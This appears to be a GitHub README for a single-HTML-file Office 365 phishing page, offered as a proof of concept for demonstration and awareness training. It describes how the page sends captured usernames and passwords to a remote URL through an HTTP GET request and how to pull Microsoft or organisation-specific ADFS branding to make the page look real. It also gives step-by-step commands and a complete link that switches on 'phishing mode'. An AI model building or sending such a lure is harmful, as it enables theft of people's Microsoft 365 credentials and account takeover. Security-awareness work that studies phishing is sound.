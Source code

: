 ## Single .html page O365 Phishing
Provided **for demonstration/PoC only**. Please don't abuse

This is a simple Office 365 phishing page that consists of a single .html document. Doesn't require any special serverside software to run besides a web server to serve the page. Though does require loose content security policies.

Will send phished details to a reomte URL via HTTP GET. Credentials can then be retrieved through standard HTTP access logs without requiring any special receiver software.

It can be configured by base64 encoded URL parameters to customise the page properties such as:
* background image
* banner logo
* remote url
* username

## Usage

These are the configurable URL parameters, and their default values if not specified

#### id
The email username parameter. **Base64** encoded
```
Usage:      id=<base64 encoded email address>
Default:    username@domain.com
```

#### training
Determines whether or not training mode or phishing mode is activated.

if training=1 (default); Upon click of password input field or submit button, user is redirected to another URL specified by the [**url**] parameter. Credentials are ignored.

if training=0; Upon click of submit of form, HTTP-GET is made to URL specified by the [**url**] parameter, and then user redirected to the Office homepage.

Credentials will be contained in the URL of the HTTP-GET: `[url]?u=<username>&p=<password>`

```
Usage:      training=<1 or 0>
Default:    1
```

#### url
Remote URl used for either training or phishing. **Base64** encoded

if `training=0`; then URL for HTTP GET command
if `training=1 or default`; then URL for the new window that's opened upon click

```
Usage:      url=<base64 encoded URL>
Default:    (training=0);                "/"
Default:    (training=1 or unspecified); "/message.html"
```

#### bg
URL for the background image. **Base64** encoded. 

Can check an organisation's ADFS logon page to obtain URL for an organisation-specific background image.
```
Usage:      bg=<base64 encoded URL image>
Default:    Hardcoded svg look-alike svg
```

#### logo
URL for the login banner image. **Base64** encoded

Can check an organisation's ADFS page to obtain a URL for a branded logo for the organisation.
```
Usage:      logo=<base64 encoded URL image>
Default:    Hardcoded look-alike svg 
```

## Usage Example

Host the webpage somewhere.

Construct Phishing Link. When calculating base64, be sure to not include trailing newline

```
## [id]; username parameter
$ echo -n "kanye@outlook.com" | base64
a2FueWVAb3V0bG9vay5jb20=

## [url]; remote phishing URL parameter
$ echo -n "https://example7123.com" | base64
aHR0cHM6Ly9leGFtcGxlNzEyMy5jb20=

## [logo]; custom banner image parameter
<pre>[wmax641@battlestation ~]$ echo -n &quot;https://aadcdn.msauth.net/shared/1.0/content/images/microsoft_logo_ee5c8d9fb6248c938fd0dc19370e90bd.svg&quot; | base64
aHR0cHM6Ly9hYWRjZG4ubXNhdXRoLm5ldC9zaGFyZWQvMS4wL2NvbnRlbnQvaW1hZ2VzL21pY3Jvc29mdF9sb2dvX2VlNWM4ZDlmYjYyNDhjOTM4ZmQwZGMxOTM3MGU5MGJkLnN2Zw==
```

Put it all together, and setting [training=0] to turn on phishing mode to create the final phishing link:

```
http://[hostname]/login_min.html?training=0&id=a2FueWVAb3V0bG9vay5jb20=&url=aHR0cHM6Ly9leGFtcGxlNzEyMy5jb20=&logo=aHR0cHM6Ly9hYWRjZG4ubXNhdXRoLm5ldC9zaGFyZWQvMS4wL2NvbnRlbnQvaW1hZ2VzL21pY3Jvc29mdF9sb2dvX2VlNWM4ZDlmYjYyNDhjOTM4ZmQwZGMxOTM3MGU5MGJkLnN2Zw==
```

???
